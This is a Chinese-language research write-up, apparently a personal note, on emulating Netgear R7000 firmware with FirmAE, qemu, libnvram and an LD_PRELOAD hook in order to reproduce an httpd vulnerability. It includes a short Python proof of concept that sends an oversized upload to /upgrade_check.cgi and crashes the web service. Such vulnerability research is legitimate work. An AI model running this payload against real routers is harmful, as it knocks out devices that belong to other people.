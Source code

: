 参考于文章[复现影响79款Netgear路由器高危漏洞](https://blog.csdn.net/q759451733/article/details/114459181)，但原文章是基于真实设备做的，这里尝试采用模拟的方式。

刚开始尝试qemu用户仿真，会报错说`libbdbroker.so`找不到
```
sudo chroot . ./qemu-arm-static /usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
/usr/sbin/httpd: can't load library 'libbdbroker.so'
```

然后去文件系统中找，这里会出现各种各种符号链接，但是是坏的，在提取的文件系统里确实找不到这个`libbdbroker.so`文件，这应该是路由器启动过程中动态生成的文件。

于是尝试使用FirmAE进行仿真，可以成功仿真！
```
sudo ./run.sh -d Netgear /home/iot/Desktop/firmware/Netgear/R7000-V1.0.11.100_10.2.100/R7000-V1.0.11.100_10.2.100.chk
```

![](images/Pasted%20image%2020230918224258.png)

通过debug模式进入shell，在FirmAE仿真的文件系统里可以找到`libbdbroker.so`文件，并且运行poc代码可以让http服务崩溃。
```python
# poc.py
import socket

ip = '192.168.1.1'
port = 80
argument_name = b"mtenFWUpload"

def send_plain(ip, port, payload):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	sock.connect((ip, port))
	sock.send(payload)
	print(sock.recv(4096))
	sock.close()

data = b""
data += b"*#$^\x00" # marker
data += b"\x00\x04\x00" # size
data += b"A" * 0x400

payload = b''
payload += b'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += b'Host: 192.168.1.1\r\n'
payload += b'Content-Disposition: AAAA\r\n'
payload += b'Content-Length: 1024\r\n'
payload += b'Content-Type: application/octet-stream\r\n'
payload += b'name="mtenFWUpload"\r\n'
payload += b'\r\n'
payload += data

print(payload)

send_plain(ip, port, payload)

```

## 仿真
由于项目需要，要尝试将httpd程序通过用户仿真方式跑起来并能够触发崩溃，查看固件支持的命令发现支持tftp，于是在主机搭建tftp服务器，把缺少的`libbdbroker.so`文件拷贝出来再尝试运行。（后来发现该文件可以在文件系统中一个打包文件中找到）
### 搭建tftp服务器

在ubuntu主机上安装服务端
```
sudo apt-get install tftpd-hpa
```

创建tftp服务器目录
```
cd /home/iot/Desktop
mkdir tftp_share
```

配置tftp服务器
```
sudo vim /etc/default/tftpd-hpa
```

将内容更改为如下内容：
```
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/iot/Desktop/tftp_share"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-l -c -s"
```

重启tftp服务
```
sudo service tftpd-hpa restart
```

在FirmAE跑起来的固件环境shell中运行tftp命令传输文件
```
tftp -l /tmp/media/nand/bitdefender/patches/base/lib/libbdbroker.so -r libbdbroker.so  -p 192.168.1.2 69
```

然后在tftp配置的目录下就可以找到相应的文件。

将`libbdbroker.so`文件放在lib目录下，然后再以用户仿真运行httpd程序，这次报`/var/run/httpd.pid: No such file or directory`，原因是缺少相应的目录，创建对应目录即可。提取的文件系统var指向tmp/var（不存在），所以递归创建目录`tmp/var/run`，然后再运行。

这次就开始报`/dev/nvram: No such file or directory`，这是因为没有配置nvram，可以安装firmadyne项目中提供的方法进行配置。

### nvram配置
根据[firmadyne/libnvram: NVRAM emulator (github.com)](https://github.com/firmadyne/libnvram) 中Usage的描述，下载arm版本的release，将`libnvram.so`覆盖原来的文件`usr/sbin/libnvram.so`，在文件系统根目录创建目录
```
mkdir -p firmadyne/libnvram/
mkdir -p firmadyne/libnvram.override/
```

然后重新启动httpd程序，nvram问题解决了，但是又崩了。

![](images/Pasted%20image%2020230919113506.png)

刚开始没找出原因在哪儿，然后尝试通过greenhouse工具跑该固件，但是跑完后没有结果。后来又尝试全系统模式仿真，测试发现上面的问题是因为NVRAM的值（`gui_region`）没有设置，需要设置它的值才能继续跑下去，但是后面还有很多NVRAM的值需要设置，暂时还是没跑起来，记录一下全系统仿真时的脚本。

```
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

./gdbserver-7.7.1-armel-v1 192.168.2.2:1234 usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

由于FirmAE能够成功仿真，我们可以将其仿真成功时的NVRAM配置拷贝出来作为用户仿真状态下的配置。拷贝出来后发现一个问题，从[firmadyne/libnvram](https://github.com/firmadyne/libnvram)这里下载的libnvram.so有点问题，正常情况下，可以把初始的nvram配置放在/firmadyne/libnvram.override文件夹下，后续会拷贝到实际使用的/firmadyne/libnvram文件夹下，但是下载的libnvram.so却拷贝到了/libnvram文件夹下，而使用的是/firmadyne/libnvram文件夹，从而使override的初始提供的值无效。后来我对其进行了修改，使其直接使用/libnvram文件夹下的值。

具体过程就是：将FirmAE环境拷贝出的libnvram目录内容放入/firmadyne/libnvram.override文件夹下，创建/libnvram，在运行时会将/firmadyne/libnvram.override文件夹下的值拷贝到使用的/libnvram中。

### 外设访问错误

解决完nvram问题，还是会崩溃。有很多访问`/dev/acos_nat_cli`外设的，还会调用`ioctl()`函数操作，无法处理，导致崩溃，主要封装为类似`agApi_*` 的函数。在FirmAE的论文中，有相关的描述：

> 嵌入式设备中的很多程序通过内核设备驱动程序与外设协作。通常，其使用ioctl命令行与外设通信。但因为每个设备驱动程序都有其独特的特征，这些特征取决于其开发人员和相应的设备，所以这一过程并不容易模拟。尽管Firmadyne实现了一些虚拟内核模块，支持/dev/naram和/dev/acos_nat_cli，但这远远无法涵盖实际场景中中固件映像的各种特性。所以，这一问题会导致很多固件映像仿真过程中崩溃。 

> **Insufficient support of kernel module**尽管Firmadyne用硬编码设备名称和icotl命令实现了虚拟模块，但当程序用不同的配置来访问内核时还是会失败。例如，大量的NETGEAR映像使用acos_nat模块来与安装在/dev/acos_nat_cli上的外设通信。在这些映像中，Firmadyne模块返回不正确的值，并在httpd中形成无限循环。此外，我们还发现ioctl命令根据固件体系结构的不同而不同，这一点也需要考虑进来。

> FirmAE的高级仿真方法可以利用特定内核模块的优势。这里关键的一点是通过共享库来访问许多内核模块，这些共享库有发送相应ioctl命令的函数。因此，FirmAE可以像处理NVRAM问题一样对其处理。当程序调用库函数时，FirmAE返回一个预定义的值。因此，并不需要模拟每个设备架构中的每一条icotl命令。在这个例子中，我们只需要关注acos_nat，而经由共享库的其他外设访问可以用相同的方式处理。
##############

对此，我尝试进行Hook。

下载交叉编译工具：[armv7-eabihf--uclibc--stable-2020.08-1](https://toolchains.bootlin.com/downloads/releases/toolchains/armv7-eabihf/tarballs/armv7-eabihf--uclibc--stable-2020.08-1.tar.bz2)

对相关函数进行hook
```
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>

int open(const char *file, int oflag, ...)
{
	fprintf(stderr, "hook open func!!\n");
	char str1[] = "/dev/acos_nat_cli";
	if(strcmp(str1, file) == 0){
		// 1==2
		fprintf(stderr, "return open 1 !!\n");
		return 1;
	}else{
		fprintf(stderr, "try call open !!\n");
		typeof(&open) orig = dlsym(RTLD_NEXT, "open");
		return orig(file, oflag);
	}
	return 1;
}
```

```
armv7-eabihf--uclibc--stable-2020.08-1/bin/arm-linux-gcc hook.c -o hook.so  -fPIC -shared -ldl
```

运行
```
sudo chroot . ./qemu-arm-static -E LD_PRELOAD=./hook.so usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

调试
```
sudo chroot . ./qemu-arm-static -g 1234 -E LD_PRELOAD=./hook.so usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem

set follow-fork-mode parent
```

将daemon hook掉